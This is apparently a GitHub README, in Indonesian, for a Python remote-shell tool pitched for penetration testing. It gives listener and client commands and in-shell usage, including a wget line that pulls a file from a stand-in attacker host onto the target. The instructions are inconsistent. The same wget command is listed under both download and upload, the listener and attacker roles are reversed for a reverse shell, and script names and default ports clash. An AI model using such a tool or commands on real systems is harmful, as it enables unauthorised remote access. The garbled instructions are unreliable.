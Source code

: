 # Python Reverse Shell Tool
![carbon (1)](https://github.com/user-attachments/assets/bb463d32-d556-4743-af68-8ebd0b32510d)

Tool reverse shell sederhana berbasis Python untuk penetration testing yang sah.

## Fitur Utama

- 🚀 **Dual Mode**: Mode listener dan client
- 🔒 **Komunikasi Terenkripsi** (versi advanced)
- 📱 **Multi-Platform**: Bekerja di Windows, Linux, dan macOS
- 💻 **Shell Interaktif**
- 📡 **Port Customizable**

# Fitur Tambahan 
- Detailed logging to file
- Different log levels
- Critical error tracking
- Connection errors (timeout, refused, etc.)
- Command execution errors
- Listener setup errors
- Input validation
- Auto-reconnect mechanism
- Input validation for IP/port
- Better resource cleanup
- Graceful shutdown
- Proper socket cleanup
- Error messages don't reveal sensitive info
- Input sanitization
- Clear error messages
- Colorized output
- Helpful status messages



## Persyaratan

- Python 3.6+
- Modul `cryptography` (untuk versi enkripsi)
 ```console
 pip install cryptography
```

# Cara Penggunaan

1. Mode Listener (Target)
 ```console
 python3 shell.py -l -p 5555
```

2. Mode Client (Attacker)
 ```console
python3 reverse.py -c <IP_TARGET> -p 5555
```

* Untuk Sistem Linux/Mac
```console
shell> ls          # Lihat isi direktori
shell> pwd         # Lihat direktori saat ini 
shell> ls -la      # Lihat semua file termasuk hidden
shell> tree        # Lihat struktur direktori (jika terinstall)
```
* Untuk Sistem Windows
```console
shell> dir         # Lihat isi direktori
shell> cd          # Lihat direktori saat ini
shell> tree        # Lihat struktur direktori
```
* Karakter khusus
```console
shell> cd "My Documents"
shell> cd /var/www/html
shell> ls
```
* Download direktori target
```console
shell> wget http://attacker.com/file.txt -O /tmp/file.txt
```
* Upoad File ke target
```console
shell> wget http://attacker.com/file.txt -O /tmp/file.txt
```

| Command | Description |
| --- | --- |
| -l | Jalankan sebagai listener |
| -c IP | Hubungkan ke listener di IP target |
| -p PORT | Tentukan port (default: 4444) |
| -i | Mode interaktif |
| -k KEY | Encryption key (versi advanced) |

# Troubleshooting
```console
sudo lsof -i :4444  # Cari proses yang menggunakan port
sudo kill -9 <PID>  # Hentikan proses
```
* Pastikan listener sudah berjalan di target
* Periksa firewall/network configuration
MIT License

Copyright (c) Izumy

[![GitHub](https://img.shields.io/badge/GitHub-View_Project-blue?logo=github)](https://github.com/hidayat-tanjung/revershe/)
